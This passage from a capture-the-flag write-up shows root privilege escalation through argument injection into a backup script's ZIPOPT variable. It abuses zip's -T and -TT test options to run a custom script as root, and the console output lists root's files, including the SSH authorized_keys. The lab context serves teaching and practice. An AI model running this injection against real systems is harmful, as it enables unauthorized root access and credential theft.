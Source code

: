 One idea is to supply *zip* options to test the archive afterwards (`-T`) and to also supply a different unzip program for that test (`-TT`). Why not have `/bin/sh` do the test? :)

```console
$ ZIPOPT=" -T -TT '/bin/sh #' " ./backup
[...]
sh: 1: Syntax error: Unterminated quoted string
free(): double free detected in tcache 2
test of /tmp/temp.zip FAILED

zip error: Zip file invalid, could not spawn unzip, or wrong unzip (original files unmodified)
```

Hmm. That didn't go as planned... yet.

### Approach 2 - Elevated Command Execution

Let's try to create a custom test program to feed to *zip* to gain command execution with root privileges. We could start with a shell script to list all files under `/root`.

```console
$ cd /tmp
$ echo "ls -laR /root > /tmp/rootdir.txt" > pwn.sh
$ chmod +x pwn.sh
$ ZIPOPT=" -T -TT /tmp/pwn.sh " /usr/local/sbin/backup 1>/dev/null 2>&1
$ cat rootdir.txt 
/root:
total 28
drwx------  4 root root 4096 Jul  6 12:31 .
drwxr-xr-x 18 root root 4096 Jun 27 16:42 ..
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  2 root root 4096 Jun 27 16:43 .cache
-rw-r--r--  1 root root   23 Jul  6 12:33 flag.txt
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
drwx------  2 root root 4096 Jun 23 12:20 .ssh

/root/.cache:
total 8
drwx------ 2 root root 4096 Jun 27 16:43 .
drwx------ 4 root root 4096 Jul  6 12:31 ..
-rw-r--r-- 1 root root    0 Jun 27 16:43 motd.legal-displayed

/root/.ssh:
total 12
drwx------ 2 root root 4096 Jun 23 12:20 .
drwx------ 4 root root 4096 Jul  6 12:31 ..
-rw------- 1 root root  161 Jun 23 12:20 authorized_keys
```

Awesome, that worked well! We have spotted the flag, but also `/root/.ssh/authorized_keys`!

## Now it's Flag Time!

Connect to the real target machine.
